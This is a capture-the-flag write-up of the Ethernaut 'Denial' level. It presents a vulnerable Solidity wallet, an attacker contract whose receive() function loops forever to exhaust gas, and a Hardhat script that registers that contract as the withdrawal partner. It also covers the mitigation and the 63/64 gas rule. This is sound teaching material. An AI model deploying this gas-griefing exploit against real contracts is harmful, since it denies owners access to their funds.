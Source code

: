 ```yaml
---
title: Ethernaut \#20 Denial
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Denial challenge writeup
---
```


## Denial

### Challenge

This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Background

This challange is a bit consfusing, not in a way of solving it, but in the wording of the challenge and the setup of it. In general the final goal is to perform a denial of service attack on the `withdraw` function, however, even after peforming the attack the owner could bypass it with little to no difficulty. But in any case, this was the challange so it will be tackled.

As the comment in the challange code itself mentions, the `call` function will not `revert` the caller if the calle `revert`s. This means that we cannot perform deny the service simply by reverting. We can however, consume all the available gas and force the entire execution to `revert` with an `outOfGas` exception.

Even though I did not like the context of the challange though, I did learn something unique after finishing this challenge.

### Attack

Create a contract that will consume an infinite amount of gas when receiving funds. This can be achieved by having an infinite loop in the `receive` function. 

* Create a contract that goes into an infite loop when receiving funds.
* Set the contract as the partner

#### DenialSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract DenialSolve {

    constructor() public {}

    receive() external payable {
        while (true) {}
    }
}
```

#### denial-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    denialAddress = "0x8705dDC7eAD886861Cd2EF45155A5f0835A57b57";
    contract = await ethers.getContractAt("Denial", denialAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    DenialSolve = await ethers.getContractFactory("DenialSolve");
    denialSolve = await DenialSolve.deploy();
    await denialSolve.deployed();

    console.log("Level address: " + contract.address)

    // set contract as partner
    tx = await contract.connect(account).setWithdrawPartner(denialSolve.address)
    receipt = await tx.wait()
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/denial-solve.js --network rinkeby
Level address: 0x8705dDC7eAD886861Cd2EF45155A5f0835A57b57
```

### Success Message

This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

Note: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.

### Post Challenge

While reading the challange I noticed it mentioned that it should fail for 1M gas or less, but it seemed that this was not really a requirement. At least I could not see why. I thought that doing this is again pretty straing forward. I could simply check the remaining gas while in the loop or even pre-calculate the gas consumption and make sure it would consume at least enough to `revert` a transaction with 1M gas with an `outOfGas` exception.

Then after I read the `Success Message` I realized that the reason there is such a limit is because call will send at most 63/64 units of gas to the callee. This means that if the remaining 1/64 is enough to execute the parent code, then even with an infinite loop, the function would still succeed. This is because the inifinte loop would consume the entire 63/64 of the gas, `revert` with an `outOfGas` exception, and return execution to the caller. Since its a `call` function the revert would not happen in the caller, and since we assumed that 1/64 is enought to finish the parent execution the transaction would finish normally.
